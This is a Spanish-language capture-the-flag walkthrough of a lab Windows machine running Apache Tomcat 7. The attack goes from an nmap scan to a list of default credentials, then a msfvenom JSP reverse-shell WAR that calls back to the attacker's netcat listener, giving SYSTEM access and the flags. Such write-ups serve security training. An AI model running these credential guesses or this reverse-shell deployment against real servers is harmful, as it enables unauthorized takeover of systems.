





Reconocimiento
sudo nmap -sCV --min-rate 5000 -Pn 10.10.10.95 Nmap scan report for 10.10.10.95
Host is up (0.041s latency).
Not shown: 999 filtered tcp ports (no-response)
PORT STATE SERVICE VERSION
8080/tcp open http Apache Tomcat/Coyote JSP engine 1.1
|_http-title: Apache Tomcat/7.0.88
|_http-favicon: Apache Tomcat
|_http-open-proxy: Proxy might be redirecting requests
|_http-server-header: Apache-Coyote/1.1Al mirar el resultado del nmap, vemos que el puerto 8080 tiene un http abierto con Apache Tomcat al cual accederemos a el.

Nos encontramos un panel de tomcat dónde en la parte de la derecha tenemos un link a la managment app la cual podemos clickar y ver que pasa.

Nos encontramos un panel de login en el cual podemos intentar iniciar sesion con las credenciales por defecto de este software.
Username:assword
admin:password
admin:
admin:Password1
admin:password1
admin:admin
admin:tomcat
both:tomcat
manager:manager
role1:role1
role1:tomcat
role:changethis
root:Password1
root:changethis
root:password
root:password1
root:r00t
root:root
root:toor
tomcat:tomcat
tomcat:s3cret
tomcat:password1
tomcat:password
tomcat:
tomcat:admin
tomcat:changethisVemos que las credenciales correctas son tomcat:s3cret.

En el caso de que salirte del panel de credenciales nos sale una página de error con las credenciales correctas.

Ahora, tenemos un control panel donde podemos subir archivos .war
Explotación
Procedemos a la creacion de un archivo .war con msfvenom para devolvernos una reverseshell a nuestra máquina desde la víctima para poder controlarla.
msfvenom -p java/jsp_shell_reverse_tcp LHOST=10.10.14.6 LPORT=443 -f war -o reverse.warLo subimos a la web y le damos a deploy.

Nos ponemos en escucha con netcat y ejecutamos el war desde la url
nc -lvp 443 #netcat
http://10.10.10.95:8080/reverse #urlObtenemos la reverseshell:
connect to [10.10.14.6] from (UNKNOWN) [10.10.10.95] 49193
Microsoft Windows [Version 6.3.9600]
(c) 2013 Microsoft Corporation. All rights reserved.
C:\apache-tomcat-7.0.88>Comprobamos que usuario somos:
C:\apache-tomcat-7.0.88>whoami
whoami
nt authority\system
C:\apache-tomcat-7.0.88>Flag de los Usuarios:
C:\Users\Administrator\Desktop\flags>dir
dir
Volume in drive C has no label.
Volume Serial Number is 0834-6C04
Directory of C:\Users\Administrator\Desktop\flags
06/19/2018 07:09 AM <DIR> .
06/19/2018 07:09 AM <DIR> ..
06/19/2018 07:11 AM 88 2 for the price of 1.txt
1 File(s) 88 bytes
2 Dir(s) 2,419,703,808 bytes free
C:\Users\Administrator\Desktop\flags>